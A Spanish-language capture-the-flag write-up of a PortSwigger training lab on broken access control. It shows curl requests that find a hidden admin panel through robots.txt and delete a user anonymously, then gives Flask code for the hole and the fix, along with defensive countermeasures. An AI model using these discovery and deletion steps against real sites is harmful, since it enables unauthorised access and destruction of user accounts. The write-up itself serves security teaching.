

# Writeup: Unprotected admin functionality (PortSwigger)

- **Lab**: Unprotected admin functionality
- **URL**: https://portswigger.net/web-security/access-control/lab-unprotected-admin-functionality
- **Categoría**: Access control / Broken access control / Security through obscurity
- **Dificultad**: Apprentice
- **Credenciales**: ninguna (lab anónimo)

---

## 1. Objetivo

Borrar la cuenta de `carlos`. La función admin existe, no requiere auth, solo está oculta por un path "no obvio". El defender confió en que nadie iba a encontrar el path; el atacante lo descubre en `robots.txt`.

### Insight central

`robots.txt` y archivos análogos (`sitemap.xml`, `humans.txt`) son **pistas, no defensas**. Un archivo cuyo único propósito es decir a los crawlers "no indexes esto" anuncia explícitamente las rutas que el dueño considera sensibles. Para crawlers legítimos: cumplen. Para atacantes: lista de objetivos.

La vuln no es "exposición del path" sino la **ausencia de auth en una funcionalidad sensible**. Aunque el path fuera secreto, la fix correcta es exigir `role=admin` en el endpoint, no esperar que nadie lo encuentre.

---

## 2. Reconocimiento

### 2.1 robots.txt

```
$ curl https://0aca00f304c70a7c827f2ebc009f0073.web-security-academy.net/robots.txt
User-agent: *
Disallow: /administrator-panel
```

Path revelado.

### 2.2 Confirmar que el panel no chequea auth

```
$ curl https://<lab>/administrator-panel
... <h1>Users</h1>
    <a href="/administrator-panel/delete?username=wiener">Delete</a>
    <a href="/administrator-panel/delete?username=carlos">Delete</a>
```

Sin cookie de sesión, sin login, accedemos al panel y vemos los links de delete. Confirmado: zero auth.

---

## 3. Resolución

```
$ curl -i 'https://<lab>/administrator-panel/delete?username=carlos'
HTTP/2 302
location: /administrator-panel
```

302 a `/administrator-panel` = delete exitoso. Banner del lab pasa a `is-solved`.

Una request anónima (sin auth, sin sesión) es suficiente.

---

## 4. Por qué funciona

### 4.1 Security through obscurity

El defender asumió: "si el path no está linkeado desde la app pública, nadie lo va a encontrar". Falso. Vectores de descubrimiento:

- `robots.txt`, `sitemap.xml`, `.well-known/`
- Wordlists comunes (`dirb`, `gobuster`, `feroxbuster` con `common.txt`, `raft-large-words.txt`).
- Leaks en JS, comentarios HTML, headers de respuesta.
- Buscadores (Google dorking: `site:target inurl:admin`).
- Errores que revelan rutas (stack traces, debug pages).

La obscuridad es defensa-en-profundidad complementaria, nunca primaria. Si el único impedimento al acceso es no conocer la URL, eventualmente alguien la conoce.

### 4.2 Implementación correcta

```python
# Antipatron
@app.route('/administrator-panel')
def admin_panel_broken():
    return render_template('admin.html', users=User.all())

@app.route('/administrator-panel/delete')
def admin_delete_broken():
    User.delete_by_username(request.args['username'])
    return redirect('/administrator-panel')

# Implementacion correcta
def require_admin(fn):
    @wraps(fn)
    def wrapper(*args, **kwargs):
        if not session.get('user_id'):
            abort(401)
        user = User.find(session['user_id'])
        if not user.is_admin:
            abort(403)
        return fn(*args, **kwargs)
    return wrapper

@app.route('/administrator-panel')
@require_admin
def admin_panel_safe():
    return render_template('admin.html', users=User.all())

@app.route('/administrator-panel/delete', methods=['POST'])
@require_admin
def admin_delete_safe():
    User.delete_by_username(request.form['username'])
    audit_log(actor=session['user_id'], action='delete_user',
              target=request.form['username'])
    return redirect('/administrator-panel')
```

Cuatro mejoras:

1. **Decorator `@require_admin`**: enforcement consistente, no se puede olvidar por endpoint.
2. **Distinguir 401 vs 403**: no autenticado vs autenticado pero sin permisos.
3. **POST en lugar de GET para delete**: GET es idempotente en HTTP semántico; un delete via GET es vulnerable a CSRF (un `` ejecuta el delete cuando un admin lo ve).
4. **Audit log**: registrar quién borró a quién, cuándo. Detección post-incidente.

### 4.3 Patrón general - OWASP A01:2021 Broken Access Control

Top 1 del OWASP Top 10 desde 2021. Sub-patterns:

- **Functional level access control missing** (este lab).
- **IDOR** (`?account_id=42` sin chequeo de ownership).
- **Forced browsing** (acceder a pages sin link público).
- **Method-based bypass** (POST → GET para evitar checks).
- **Multi-step process bypass** (saltarse pasos del flow).
- **JWT/cookie tampering para escalar privilegios**.

La defensa unificada: **deny by default**. Cada endpoint declara explícitamente sus requisitos de auth. Si no hay decorator/middleware, debe fallar cerrado, no abierto.

---

## 5. Resumen



Tres ideas:

1. **`robots.txt` es lista de objetivos para el atacante**. Si querés ocultar algo, no anuncies su existencia.
2. **Security through obscurity nunca es defensa primaria**. Auth real (chequeo de role/permission server-side) es la única defensa contra access control bypass.
3. **GET para mutaciones es vulnerable a CSRF**. Cualquier endpoint que modifica estado debe ser POST (o DELETE) y exigir CSRF token + auth.

---

## 6. Contramedidas

1. **Deny by default**: cada endpoint exige auth explícita; sin decorator o middleware, falla cerrado.
2. **Decorators/middleware consistentes** (`@require_admin`, `@require_role('admin')`).
3. **Distinguir 401 (no auth) vs 403 (no permission)**.
4. **POST/DELETE para mutaciones**, con CSRF token.
5. **Audit logging**: registrar acciones admin para forensics.
6. **No revelar paths sensibles** en robots.txt, sitemap, JS. Pero la auth es lo importante; ocultar es bonus.
7. **Threat modeling temprano**: enumerar todos los endpoints sensibles y verificar que cada uno tenga authz check.

---

## 7. Referencias

- PortSwigger Web Security Academy. (s.f.). *Lab: Unprotected admin functionality*. https://portswigger.net/web-security/access-control/lab-unprotected-admin-functionality
- PortSwigger Web Security Academy. (s.f.). *Access control vulnerabilities and privilege escalation*. https://portswigger.net/web-security/access-control
- OWASP Foundation. (2021). *A01:2021 - Broken Access Control*. https://owasp.org/Top10/A01_2021-Broken_Access_Control/
- OWASP Foundation. (s.f.). *Authorization Cheat Sheet*. https://cheatsheetseries.owasp.org/cheatsheets/Authorization_Cheat_Sheet.html
- OWASP Foundation. (s.f.). *Access Control Cheat Sheet*. https://cheatsheetseries.owasp.org/cheatsheets/Access_Control_Cheat_Sheet.html
- MITRE Corporation. (2024). *CWE-284: Improper Access Control*. https://cwe.mitre.org/data/definitions/284.html
- MITRE Corporation. (2024). *CWE-285: Improper Authorization*. https://cwe.mitre.org/data/definitions/285.html
- MITRE Corporation. (2024). *CWE-287: Improper Authentication*. https://cwe.mitre.org/data/definitions/287.html
- MITRE Corporation. (2024). *ATT&CK Technique T1190: Exploit Public-Facing Application*. https://attack.mitre.org/techniques/T1190/
- Stuttard, D., & Pinto, M. (2011). *The Web Application Hacker's Handbook* (2nd ed.). Wiley. Cap. 8 (Attacking Access Controls).
- Inventario interno: [`inventario/04-explotacion/web/explotacion-broken-access-control.md`](../../../inventario/04-explotacion/web/explotacion-broken-access-control.md)
